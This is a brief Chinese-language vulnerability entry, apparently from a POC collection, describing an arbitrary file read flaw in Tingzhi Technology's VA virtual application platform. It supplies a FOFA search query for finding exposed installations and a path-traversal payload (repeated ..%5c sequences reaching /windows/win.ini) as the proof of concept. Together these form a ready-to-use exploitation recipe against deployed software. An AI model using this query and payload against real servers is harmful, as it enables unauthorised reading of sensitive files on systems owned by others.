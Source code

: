 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

霆智科技 VA虚拟应用平台

## FOFA

```
body="EAA益和应用接入系统"
```

## 漏洞复现

登陆页面

![image-20230704111747376](./images/image-20230704111747376.png) 

验证POC

```
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![image-20230704112349037](./images/image-20230704112349037.png)